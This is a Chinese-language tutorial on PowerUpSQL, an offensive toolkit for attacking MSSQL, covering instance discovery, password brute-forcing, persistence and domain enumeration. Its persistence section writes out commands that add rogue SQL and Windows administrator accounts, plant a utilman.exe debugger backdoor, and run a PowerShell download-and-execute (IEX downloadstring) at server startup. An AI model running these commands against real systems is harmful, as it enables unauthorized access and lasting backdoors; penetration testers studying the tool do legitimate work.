# 攻击MSSQL--PowerUpSQL介绍

PowerUpSQL是NETSPI开源的针对MSSQL的攻击套件，包含发现网络中mssql、爆破弱口令、利用mssql获得持久权限以及利用mssql攻击域等功能。项目地址[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)。

## 发现MSSQL实例

- 发现本地实例




- 通过SPN查找域内mssql实例

  


- 通过广播查找mssql实例

  

- 通过UDP查找网络内的mssql实例

  

接受机器名或者IP

## 获取MSSQL信息

- 获取配置信息



- 获取服务信息

  

- 登录信息

  

  

## 爆破口令

- 获取默认密码实例

  作者在脚本中提供了默认安装的一些实例名和默认密码，但是不包括MSSQLSERVER和SQL Express（避免账号锁定）。可以根据自身需要加入自定义的账号密码

  



- 使用字典爆破

  

命令的含义是通过管道爆破可以连接的发现的实例。此外，该函数还可以尝试通过Invoke-SQLOSCmd执行命令



## 持久性

- 启用存储过程

  在SQL Server启动时添加数据库管理账户

  ```
  Invoke-SqlServer-Persist-StartupSp -Verbose -SqlServerInstance "MSSQL2008WIN8" -NewSqlUser EvilSysadmin1 -NewSqlPass Password123!
  ```

  添加windows管理员

  ```
  Invoke-SqlServer-Persist-StartupSp -Verbose -SqlServerInstance "MSSQL2008WIN8" -NewosUser Evilosadmin1 -NewosPass Password123!
  ```

  执行 powershell命令

  ```
  Invoke-SqlServer-Persist-StartupSp -Verbose -SqlServerInstance "MSSQL2008WIN8" -PsCommand "IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/nullbind/Powershellery/master/Brainstorming/helloworld.ps1')"
  ```

  

- 写注册表

  ```
  Get-SQLPersistRegDebugger -Verbose -FileName utilman.exe -Command 'c:\windows\system32\cmd.exe' -Instance "MSSQL" -Username "sa" -Password "_PL<0okm"
  ```

  RDP后门。需要当前mssql用户有写注册表权限

  

  - 作业

    

  出了CMD，还支持VBScript、powershell、JScript

  

此外，工具还集成了一些通过mssql执行系统命令的方式

```
Invoke-SQLOSCmd
Invoke-SQLOSCmdCLR
Invoke-SQLOSCmdCOle
Invoke-SQLOSCmdPython       
Invoke-SQLOSCmdR 
```

- 触发器

  工具支持创建DDL和DML两种触发器

```
Get-SQLTriggerDdl -Instance SQLServer1\STANDARDDEV2014 -username '' -password ''
```

```
Get-SQLTriggerDml -Instance SQLServer1\STANDARDDEV2014 -DatabaseName testdb -username '' -password ''
```

可根据实际情况定义触发条件

## 获取域信息

- 当前域用户信息

  

- 域用户

  

- 组

  

- 域机器

  


更多用法可自行查看命令参数，或者查看项目wiki